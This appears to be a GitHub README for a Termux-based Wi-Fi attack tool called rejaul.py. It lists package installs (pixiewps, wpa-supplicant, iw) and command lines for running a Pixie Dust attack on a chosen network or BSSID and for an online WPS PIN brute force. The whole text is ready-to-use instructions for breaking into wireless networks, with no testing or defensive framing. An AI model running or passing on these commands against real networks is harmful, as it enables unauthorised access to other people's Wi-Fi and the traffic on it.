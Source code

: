# rejaul2712

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw

$ cd rejaul2712
$ chmod +x *
$ python rejaul.py -h

plz' go to HOME

Example : sudo python rejaul.py -i wlan0 -K

Note:

First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.

sudo python rejaul.py -i wlan0 -K

Start Pixie Dust attack on a specified BSSID: 

sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K

Launch online WPS bruteforce with the specified first half of the PIN:

sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

Troubleshooting

"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

